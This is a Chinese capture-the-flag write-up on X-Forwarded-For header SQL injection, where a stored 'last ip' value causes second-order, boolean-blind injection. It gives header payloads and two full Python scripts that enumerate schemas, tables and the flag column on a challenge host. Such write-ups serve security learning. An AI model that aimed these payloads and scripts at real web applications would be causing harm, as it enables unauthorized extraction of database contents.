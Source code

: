 # 知识点：

# 1. xff头sql注入

# 2. 布尔盲注

# 3.二次注入



# 1. 判断注入点

尝试之后发现，网页会回显current ip和last ip

此时就可以考虑，是否存在xff头注入



# 2. 确定注入点

payload1:

```javascript
X-Forwarded-For: 1'or'1
```



![](images/7FB12F046C5244E891033FFFF46CDCECclipboard.png)

current ip显示输入的1'or'1



payload2:

```javascript
X-Forwarded-For: 2
```



![](images/AF5B8882AB014B80AEE295E9A0214499clipboard.png)

current ip：

last ip :1'or'1



payload3:

```javascript
X-Forwarded-For: 2
```



![](images/E6E8217FFE4A40EBA04E11FEF583EA51clipboard.png)

此时说明存在sql注入，输入的1'or'1被查询，返回了1



### 结论：

### 说明第一次输入会显示current ip

### 第二次输入的ip并不一样，会显示在last ip 并存入数据库

### 第三次输入的ip和第二次currentip一样，会把数据库中的last ip取出来

### 总之第三次会从数据库中取出，存入的数据，从而造成注入



# 3. 此时构造尝试注入

payload1:

```javascript
X-Forwarded-For: 0' or (select version())>5 or'0
```



payload2:

```javascript
X-Forwarded-For: 0
```



pyload3:

```javascript
X-Forwarded-For: 0
```



![](images/57968C32012B42C9934F87844A6F3934clipboard.png)

返回1说明version>5返回1

后面的语句就是：

```javascript
0'or 1 or'0
```

会返回1



此时就可以构造布尔盲注，当查询的结果为真时会返回1，为假会返回0



# 4.附上大佬的exp

```javascript
#!/usr/bin/env python3
# coding=utf-8

import requests

target = "http://node3.buuoj.cn:25851/?url=https://127.0.0.1"

def execute_sql(sql):
    print("[*]请求语句：" + sql)
    return_result = ""

#0'or legth() or'0
    payload = "0'|length((" + sql + "))|'0"
    session = requests.session()
    r = session.get(target, headers={'X-Forwarded-For': payload})
    r = session.get(target, headers={'X-Forwarded-For': 'aaa'})
    r = session.get(target, headers={'X-Forwarded-For': 'aaa'})
    start_pos = r.text.find("Last Ip: ")
    end_pos = r.text.find(" -->", start_pos)
    length = int(r.text[start_pos + 9: end_pos])
    print("[+]长度：" + str(length))

    for i in range(1, length + 1, 5):
        payload = "0'|conv(hex(substr((" + sql + ")," + str(i) + ",5)),16,10)|'0"

        r = session.get(target, headers={'X-Forwarded-For': payload}) # 将语句注入
        r = session.get(target, headers={'X-Forwarded-For': 'aaa'})    # 查询上次IP时触发二次注入
        r = session.get(target, headers={'X-Forwarded-For': 'aaa'})    # 再次查询得到结果
        start_pos = r.text.find("Last Ip: ")
        end_pos = r.text.find(" -->", start_pos)
        result = int(r.text[start_pos + 9: end_pos])
        return_result += bytes.fromhex(hex(result)[2:]).decode('utf-8')

        print("[+]位置 " + str(i) + " 请求五位成功:" + bytes.fromhex(hex(result)[2:]).decode('utf-8'))

    return return_result


# 获取数据库
print("[+]获取成功：" + execute_sql("SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e'"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e' AND TABLE_NAME = 'F4l9_t4b1e' "))

# 获取表中内容
print("[+]获取成功：" + execute_sql("SELECT group_concat(F4l9_C01uMn) FROM F4l9_D4t4B45e.F4l9_t4b1e"))
```





一个简单的exp:

```javascript
import requests
import time

url = "http://node3.buuoj.cn:25851/?url=http://127.0.0.1"
head = {
   "GET" : "/ HTTP/1.1",
   "Cookie" : "track_uuid=fbdc9ac2-c78a-458b-f6e5-ef05be43a421",
   "X-Forwarded-For" : ""
}
result = ""
for i in range(1,100):
   l = 1
   r = 127
   mid = (l+r)>>1
   while(l<r):
      head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i,mid)
      html_0 = requests.post(url,headers = head)
      time.sleep(0.005)
      head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i, mid+1)
      html_0 = requests.post(url, headers=head)
      time.sleep(0.005)
      html_0 = requests.post(url, headers=head)
      time.sleep(0.005)
      if "Last Ip: 1" in html_0.text:
         l= mid+1
      else:
         r=mid
      mid = (l+r)>>1
   if(chr(mid)==' '):
      break
   result+=chr(mid)
   print(result)
print("table_name:"+result)
```





